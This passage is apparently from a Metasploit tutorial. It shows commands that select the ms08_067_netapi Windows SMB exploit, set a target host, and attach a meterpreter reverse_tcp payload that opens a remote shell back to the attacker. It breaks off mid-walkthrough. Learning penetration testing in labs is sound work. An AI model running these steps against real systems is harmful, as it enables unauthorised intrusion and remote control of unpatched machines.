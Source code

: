 After choosing an appropriate exploit, it is time to start hacking!

First, select an exploit using the `use` command:

```
msf > use exploit/windows/smb/ms08_067_netapi

```

**Note:** `ms08_067_netapi` is one of the most popular exploits affecting Windows XP and Windows Server 2003 SMB services. It was disclosed in 2008 and proves to be very reliable in exploiting unpatched systems which have firewalls disabled.

To view information about a module, use the `info` command:

```
msf exploit(ms08_067_netapi) > info exploit/windows/smb/ms08_067_netapi

```

Running `info` without arguments will show info about currently selected module.

To view the selected exploit's options, run:

 `msf exploit(ms08_067_netapi) > show options` 
```
Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

   ...

```

All the required fields must be provided before exploitation. Here, only the `RHOST` variable must be specified. To assign a value to a variable use the `set` command:

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102

```

Now choose the payload:

```
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp

```

**Note:** Meterpreter is a command shell built into Metasploit and allows the attacker to run remote commands on exploited systems. Reverse TCP is technique when the exploited computer establishes a connection back to the computer it was exploited from.

Choosing a payload (actually, choosing modules in general) will add more options. Run `show optons` again:
